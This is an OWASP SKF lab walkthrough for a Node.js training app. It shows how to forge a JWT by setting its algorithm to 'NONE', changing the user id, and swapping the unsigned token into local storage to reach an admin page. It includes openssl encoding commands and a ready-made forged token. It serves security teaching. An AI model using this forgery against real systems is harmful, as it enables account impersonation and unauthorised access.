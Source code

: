 # KBID 7006 - JWT Null

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The application shows a dropdown menu from which we can choose an intro or chapters to be displayed on the client-side.

![](../../.gitbook/assets/nodejs/XSS/1.png)

First thing we need to do know is to do more investigation on the requests that are being made. We do this by setting up our intercepting proxy so we can gain more understanding of the application under test.

After we set up our favourite intercepting proxy we are going to look at the traffic between the server and the front-end. Enter the credentials: _username: user_ \| _password:user_

The first thing to notice is after sucessful logon, the response contains an access token.

![](../../.gitbook/assets/nodejs/XSS/1.png)

The image above shows the access-token contains three base64 encoded splitted with two dots \(.\) separators, which indicates it's a JSON Web Token \(JWT\):

#### Header

```javascript
{
 "alg": "HS256",
 "typ": "JWT"
}
```

#### Claims

```javascript
{
  "id": 1,
  "iat": 1641553962,
  "exp": 1641557562
}
```

#### Signature

Last encrypted part, containing the digital signature for the token..

## Exploitation

### Step 1

A potential attacker can now decode the token in [http://jwt.io](http://jwt.io) website to check its content.

![](../../.gitbook/assets/nodejs/XSS/1.png)

As shown in the above picture, there are 2 points which can be tampered.

- alg header: contains the information of which algorithm is being used for digital signature of the token.
- indentity: this information is used by the application to identify which user ID is currently authenticated.

How about checking if the server is blindly accepting the digital signature algorithm as stored by token. Of course, changing the signature would also change the token signature, but, what if the server accepts NONE algorithm?

The NONE algorithm means signature is not required, so the token can be tampered and will be accepted by the server.

=======

### Step 2

#### Header tampering

```javascript
{
 "alg": "NONE",
 "typ": "JWT"
}
```

Let's base64 encode the header:

```
echo -n '{"alg":"NONE","typ":"JWT"}' | openssl base64
```

![](../../.gitbook/assets/nodejs/XSS/1.png)

Now, let's play with the identity:

```javascript
{
  "id": 1,
  "iat": 1641553962,
  "exp": 1641557562
}
```

Let's base64 encode the identity:

```
echo -n '{"id":2,"iat":1641553962,"exp": 1641557562}' | openssl base64
```

![](../../.gitbook/assets/nodejs/XSS/1.png)

As the signature is not required, the new tampered JWT token will look like this:

> eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MiwiaWF0IjoxNjQxNTUzOTYyLCJleHAiOiAxNjQxNTU3NTYyfQ.

\_note: Remove whitespaces to base64 encode properly. Remove any = after encoding. Make sure to add the trailing dot after the tampered identity.

### Step 2

Open the local storage tab within the browser and replace the original token:

![](../../.gitbook/assets/nodejs/XSS/1.png)

Now hit the _Admin_ button and check if the tampered token was accepted.

![](../../.gitbook/assets/nodejs/XSS/1.png)

Yes! The server accepted the tampered access-token. Can we check if there are more users available which can be impersonated?

## Additional Resources

Please refer to the JWT.io information for more information regarding JWT.

{% embed url="https://jwt.io/introduction/" %}

Also consider OWASP JWT Cheat Sheet as reference.

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.html" %}

Other:

{% embed url="https://owasp.org/www-chapter-vancouver/assets/presentations/2020-01_Attacking_and_Securing_JWT.pdf" %}
